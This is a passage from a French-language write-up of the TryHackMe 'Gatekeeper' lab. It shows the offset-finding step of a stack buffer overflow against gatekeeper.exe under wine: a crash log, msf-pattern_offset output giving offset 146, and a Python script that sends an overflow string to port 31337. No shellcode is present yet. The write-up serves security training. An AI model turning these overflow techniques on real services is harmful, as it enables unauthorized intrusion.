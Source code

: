 On modifie notre programme.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python findoffset.py 
```

On exécute le programme.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 212
send failed: 10009
wine: Unhandled page fault on read access to 39654138 at address 39654138 (thread 002b), starting debugger...
002b:err:seh:start_debugger Couldn't start debugger L"winedbg --auto 8 64" (2)
Read the Wine Developers Guide on how to set up winedbg or another debugger
```

On voit que le programme plante à l'adresse 39654138.
Grace à l'adresse on peut caluler l'offset.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msf-pattern_offset -l 210 -q 39654138
[*] Exact match at offset 146
```

msf-pattern_offset nous calcul le bon offset.  

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337


offset = 146
overflow = "A" * 146
ret = "BBBB"

filler = overflow + ret  

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```
